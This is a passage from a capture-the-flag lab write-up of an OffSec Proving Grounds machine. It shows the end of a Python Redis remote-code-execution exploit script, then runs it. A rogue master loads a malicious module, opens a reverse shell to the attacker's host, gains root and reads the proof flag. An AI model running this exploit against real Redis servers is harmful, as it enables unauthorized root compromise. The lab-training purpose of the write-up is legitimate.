    parser.add_argument("-r", "--rhost", dest="rhost", type=str, help="target host", required=True)
    parser.add_argument("-p", "--rport", dest="rport", type=int,
                        help="target redis port, default 6379", default=6379)
    parser.add_argument("-L", "--lhost", dest="lhost", type=str,
                        help="rogue server ip", required=True)
    parser.add_argument("-P", "--lport", dest="lport", type=int,
                        help="rogue server listen port, default 21000", default=21000)
    parser.add_argument("-f", "--file", type=str, help="RedisModules to load, default exp.so", default='exp_lin.so')
    parser.add_argument("-a", "--auth", dest="auth", type=str, help="redis password")
    parser.add_argument("-v", "--verbose", action="store_true", help="show more info", default=False)
    options = parser.parse_args()
    # runserver("127.0.0.1", 6379, "127.0.0.1", 21000)

    print("[*] Connecting to  {}:{}...".format(options.rhost, options.rport))
    global payload, verbose, filename, auth
    auth = options.auth
    filename = options.file
    verbose = options.verbose
    if os.path.exists(filename) == False:
        print("\033[1;31;m[-]\033[0m Where you module? ")
        exit(0)
    payload = open(filename, "rb").read()
    try:
        runserver(options.rhost, options.rport, options.lhost, options.lport)
    except Exception as e:
        print("\033[1;31;m[-]\033[0m Error :{}, exit..".format(e))


if __name__ == '__main__':
    print(LOGO)
    main()
```

The exploit can give us a reverse shell with the `-L` and `-P` parameters

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ python redis-rce.py    

█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   


usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE] [-a AUTH] [-v]
redis-rce.py: error: the following arguments are required: -r/--rhost, -L/--lhost
```

The exploit also needs the precompiled Redis module for Linux (`exp_lin.so`).

### Get a reverse shell

Let's try out the exploit. As the local port, use one of the open ports on the target machine such as port 80.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Wombo]
└─$ python redis-rce.py -r $TARGET_IP -p 6379 -L 192.168.45.232 -P 80 -f exp_lin.so

█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   


[*] Connecting to  192.168.106.69:6379...
[*] Listening on 192.168.45.232:80
[*] Sending SLAVEOF command to server
[+] Accepted connection from 192.168.45.232:50190
[*] Setting filename
[*] Tring to run payload
[+] Accepted connection from 192.168.45.232:80
[*] Closing rogue server...
[+] Received backconnect, use exit to exit...
$ id
juid=0(root) gid=0(root) groups=0(root)
$ 
```

We are running as root!

### Get the root flag

Since we are running as root, we can just cat the flag

```bash
$ cat /root/proof.txt
9<REDACTED>2
$ exit
[*] Clean up..
```

For additional information, please see the references below.

## References

- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [MongoDB - Wikipedia](https://en.wikipedia.org/wiki/MongoDB)
- [Nginx - Wikipedia](https://en.wikipedia.org/wiki/Nginx)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [nodeBB - Homepage](https://nodebb.org/)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Redis - Wikipedia](https://en.wikipedia.org/wiki/Redis)
- [Redis-RCE - jas502n - GitHub](https://github.com/jas502n/Redis-RCE)
- [searchsploit - Homepage](https://www.exploit-db.com/searchsploit)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
